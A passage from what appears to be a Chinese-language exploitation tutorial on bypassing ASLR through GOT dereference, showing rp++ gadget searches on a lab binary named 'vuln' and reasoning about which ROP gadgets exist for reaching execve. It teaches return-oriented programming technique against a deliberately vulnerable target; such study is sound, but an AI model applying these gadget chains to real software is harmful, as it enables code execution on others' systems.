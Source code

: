 ```
0x08048499: addl $0x0804A028, %eax ; addl %eax, 0x5D5B04C4(%ebx) ; ret ; (1 found)
0x0804849e: addl %eax, 0x5D5B04C4(%ebx) ; ret ; (1 found)
0x08048482: addl %esp, 0x0804A02C(%ebx) ; calll *0x08049F1C(,%eax,4) ; (1 found)
0x0804860e: addl -0x0B8A0008(%ebx), %eax ; addl $0x04, %esp ; popl %ebx ; popl %ebp ; ret ; (1 found)
...
$
```

好的。我们找到一个`add`零件，它将结果复制到寄存器中。现在如果我们可以使 EBX 包含`GOT[getuid] + 0xb8a0008`，并使 EAX 包含偏移差，我们就可以成功执行 GOT 解引用。

零件 2：我们在 GOT 覆盖中看到，可执行文件`vuln`中找到了`pop %ebx; ret;`。

零件 3：我们在 GOT 覆盖中看到，可执行文件`vuln`中没有找到`pop %eax; ret;`。

零件 4：通过调用寄存器来调用`execve`。因此我们需要`call *eax`零件。

```
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 1
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..

Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.

in LOAD
65 found.

A total of 65 gadgets found.
...
0x080485bb: calll *%-0x000000E0(%ebx,%esi,4) ; (1 found)
0x080484cf: calll *%eax ; (1 found)
0x0804860b: calll *%eax ; (1 found)
...
$
```

好的。我们发现了`call *eax`零件。但是还是因为零件 3`popl %eax; ret;`没有找到，GOT 解引用也是无法实现的。

栈布局：下面的图片描述了用于完成 GOT 解引用的零件链：
